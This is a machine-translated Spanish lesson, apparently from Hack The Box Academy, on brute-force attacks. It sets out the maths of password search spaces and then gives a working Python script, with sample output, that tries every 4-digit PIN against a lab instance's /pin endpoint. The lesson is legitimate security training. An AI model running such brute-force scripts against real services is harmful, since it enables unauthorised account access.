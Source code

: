 # Ataques de fuerza bruta

Para comprender realmente el desafío del forzamiento bruto, es esencial comprender las matemáticas subyacentes. La siguiente fórmula determina el número total de combinaciones posibles para una contraseña:

Código:Mathml

```
Possible Combinations = Character Set Size^Password Length

```

Por ejemplo, una contraseña de 6 caracteres que usa solo letras minúsculas (tamaño de conjunto de caracteres de 26) tiene 26^6 (aproximadamente 300 millones) de combinaciones posibles. En contraste, una contraseña de 8 caracteres con el mismo conjunto de caracteres tiene 26^8 (aproximadamente 200 mil millones) de combinaciones. Agregar letras mayúsculas, números y símbolos al conjunto de caracteres expande aún más el espacio de búsqueda exponencialmente.

Este crecimiento exponencial en el número de combinaciones destaca la importancia de la longitud de la contraseña y la complejidad. Incluso un pequeño aumento en la longitud o la inclusión de tipos de personajes adicionales puede aumentar drásticamente el tiempo y los recursos necesarios para un ataque exitoso de fuerza bruta.

Consideremos algunos escenarios para ilustrar el impacto de la longitud de la contraseña y los caracteres establecidos en el espacio de búsqueda:

|  | **Longitud de la contraseña** | **Conjunto de personajes** | **Posibles combinaciones** |
| --- | --- | --- | --- |
| `Short and Simple` | 6 | Letras minúsculas (AZ) | 26^6 = 308,915,776 |
| `Longer but Still Simple` | 8 | Letras minúsculas (AZ) | 26^8 = 208,827,064,576 |
| `Adding Complexity` | 8 | Letras minúsculas y mayúsculas (AZ, AZ) | 52^8 = 53,459,728,531,456 |
| `Maximum Complexity` | 12 | Letras, números y símbolos minúsculas y mayúsculas | 94^12 = 475,920,493,781,698,549,504 |

Como puede ver, incluso un ligero aumento en la longitud de la contraseña o la inclusión de tipos de caracteres adicionales expande drásticamente el espacio de búsqueda. Esto aumenta significativamente el número de posibles combinaciones que un atacante debe probar, lo que hace que el forzamiento bruto sea cada vez más desafiante y lento. Sin embargo, el tiempo que lleva descifrar una contraseña no solo depende del tamaño del espacio de búsqueda, también depende de la potencia computacional disponible del atacante.

Cuanto más poderoso sea el hardware del atacante (por ejemplo, el número de GPU, CPU o recursos informáticos basados en la nube que pueden utilizar), más suponen la contraseña pueden hacer por segundo. Si bien una contraseña compleja puede llevar años a la fuerza bruta con una sola máquina, un atacante sofisticado que usa una red distribuida de recursos informáticos de alto rendimiento podría reducir drásticamente ese tiempo.

![](https://academy.hackthebox.com/storage/modules/57/powern.png)

El cuadro anterior ilustra una relación exponencial entre la complejidad de la contraseña y el tiempo de agrietamiento. A medida que aumenta la longitud de la contraseña y el conjunto de caracteres se expande, el número total de combinaciones posibles crece exponencialmente. Esto aumenta significativamente el tiempo requerido para descifrar la contraseña, incluso con potentes recursos informáticos.

Comparando la computadora básica y la supercomputadora:

- Computadora básica (1 millón de contraseñas/segundo): adecuado para descifrar las contraseñas simples rápidamente, pero se vuelve poco lento para las contraseñas complejas. Por ejemplo, descifrar una contraseña de 8 caracteres usando letras y dígitos tomaría aproximadamente 6.92 años.
- SuperComputer (1 billón de contraseñas/segundo): reduce drásticamente los tiempos de agrietamiento para contraseñas más simples. Sin embargo, incluso con esta inmensa potencia, las contraseñas altamente complejas pueden tomar una cantidad de tiempo poco práctica. Por ejemplo, una contraseña de 12 caracteres con todos los caracteres ASCII aún tardaría unos 15000 años en romper.

# **Rompiendo el alfiler**

**Para seguir, inicie el sistema de destino a través de la sección de preguntas en la parte inferior de la página.**

La aplicación de instancia genera un pin de 4 dígitos aleatorio y expone un punto final (`/pin`) que acepta un PIN como un parámetro de consulta. Si el PIN proporcionado coincide con el generado, la aplicación responde con un mensaje de éxito y un indicador. De lo contrario, devuelve un mensaje de error.

Usaremos este script de Python de demostración simple para la fuerza bruta del`/pin`punto final en la API. Copie y pegue este script de Python a continuación como`pin-solver.py`en tu máquina. Solo necesita modificar las variables IP y puerto para que coincidan con la información de su sistema de destino.

Código:pitón

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break

```

El script de Python itera sistemáticamente todos los pines posibles de 4 dígitos (0000 a 9999) y envía solicitudes para obtener solicitudes al punto final del matraz con cada pin. Verifica el código de estado de respuesta y el contenido para identificar el PIN correcto y capturar el indicador asociado.

Ataques de fuerza bruta

```
xnoxos@htb[/htb]$ python pin-solver.py...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}

```

La salida del script mostrará la progresión del ataque de fuerza bruta, mostrando cada pin intentado y su resultado correspondiente. La salida final revelará el PIN correcto y la bandera capturada, lo que demuestra la finalización exitosa del ataque de fuerza bruta.